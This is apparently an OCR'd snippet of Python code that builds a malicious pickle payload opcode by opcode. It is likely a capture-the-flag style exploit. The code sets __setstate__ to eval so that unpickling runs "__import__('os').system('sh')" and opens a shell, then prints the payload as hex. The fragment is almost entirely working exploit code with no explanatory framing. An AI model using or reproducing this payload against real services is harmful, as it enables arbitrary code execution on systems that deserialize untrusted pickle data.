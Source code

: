 ```py 
data += pickle.NONE
data += pickle.MARK
data += pickle.STRING + b"'find_class'\n"
data += pickle.BINGET + bytes([3])
data += pickle.DICT
data += pickle.TUPLE2
data += pickle.BUILD 

# __main__.__setstate__ = __builtins__.eval
data += pickle.BINGET + bytes([1])
data += pickle.NONE
data += pickle.MARK
data += pickle.STRING + b"'__setstate__'\n"
data += pickle.GLOBAL + b"eval\naaa\n"
data += pickle.DICT
data += pickle.TUPLE2
data += pickle.BUILD 
data += pickle.POP
data += pickle.POP

# trigger eval("'__import__(\"os\").system(\"sh\")'\n")
data += pickle.BINGET + bytes([1])
data += pickle.STRING + b"'__import__(\"os\").system(\"sh\")'\n"
data += pickle.BUILD
data += pickle.POP

data += pickle.STOP

from codecs import getencoder
pickletools.dis(data)
print(getencoder("hex")(data)[0].decode())

```
